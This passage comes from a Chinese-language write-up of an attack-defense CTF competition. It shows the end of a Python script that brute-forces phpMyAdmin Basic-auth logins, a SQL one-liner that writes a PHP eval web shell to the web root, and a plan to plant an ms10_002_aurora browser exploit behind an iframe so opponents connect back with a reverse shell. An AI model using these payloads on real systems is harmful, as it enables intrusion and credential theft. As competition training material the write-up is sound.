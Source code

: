 ```
        'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Cookie': 'phpMyAdmin=905a110bc7a3544de32bc6bd01a88c7e78236bf8; pma_lang=zh-utf-8; pma_charset=utf-8; pma_collation_connection=utf8_general_ci; pma_fontsize=82%25; pma_theme=original; tz_offset=28800',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Authorization': 'Basic '+b64_u_p   #cm9vdDphYWFh
    `}`
    req=requests.get(url=url,headers=headers)
    if "错误" not in req.content:
        print '[#]Find username/password : '+base64.b64decode(b64_u_p)
        return 1
    return 0

get_b64_u_p('password.txt')
```

结果<br>[![](https://p3.ssl.qhimg.com/t01d279577015112ab2.png)](https://p3.ssl.qhimg.com/t01d279577015112ab2.png)

于是直接登进phpmyadmin写shell<br>
select ‘&lt;?php [@eval](https://github.com/eval)($_POST[a]);?&gt;’ into outfile ‘/var/www/a.php’<br>
后面可以知道这是我们的攻防机<br>
并得到后台密码，后台密码也是ssh的登录密码

### <a class="reference-link" name="%E6%94%BB%E9%98%B2%E2%80%94%E6%B8%97%E9%80%8F%E5%85%B6%E4%BB%96%E9%98%9F%E4%BC%8D%E7%9A%84%E5%86%85%E7%BD%91%E6%94%BB%E9%98%B2%E6%9C%BA"></a>攻防—渗透其他队伍的内网攻防机

利用攻防机10.10.10.254作为跳板机渗透其他队伍的内网攻防机192.168.10.128<br>
这台攻防机有两个网卡ip分别是10.10.10.254和192.168.10.254<br>[![](https://p1.ssl.qhimg.com/t016e66b9cefb3d3304.png)](https://p1.ssl.qhimg.com/t016e66b9cefb3d3304.png)

其他选手的攻防机所在的网段是192.168.xx.xx<br>
这里需要知道的是因为选手机所在的网段是10.10.xx.xx是没办法直接访问网段192.168.xx.xx的，所以要攻击对手的话我们需要使用我们自己的一台攻防机来作为攻击的跳板机，其中有一台我后面发现存在ms10_002_aurora漏洞，这是一个浏览器漏洞。因为所有队伍攻防机的初始配置都是一样的，所以我后面想到利用这个漏洞， 利用思路是:<br>
先在自己的攻防机192.168.10.254上面挂一个ms10_002_aurora漏洞利用的黑页，然后如果对手使用了跳板机上有浏览器漏洞的机子访问了我们的攻防机192.168.10.254的话，就会触发漏洞反弹一个shell给我们。

<a class="reference-link" name="%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%E5%A6%82%E4%B8%8B"></a>**利用过程如下**

例如对手的一台存在该漏洞的跳板机是192.168.10.128<br>
我们先挂载上漏洞利用的网页在我们的10.10.10.128:8080/exploit<br>[![](https://p3.ssl.qhimg.com/t01b0f3fa194d705612.png)](https://p3.ssl.qhimg.com/t01b0f3fa194d705612.png)

然后我们在自己的攻防机10.10.10.254上的index.html中添加上一句iframe<br>
(也就是挂载上了192.168.10.254这台攻防机上)<br>[![](https://p0.ssl.qhimg.com/t01a86c2274c7a1de81.png)](https://p0.ssl.qhimg.com/t01a86c2274c7a1de81.png)

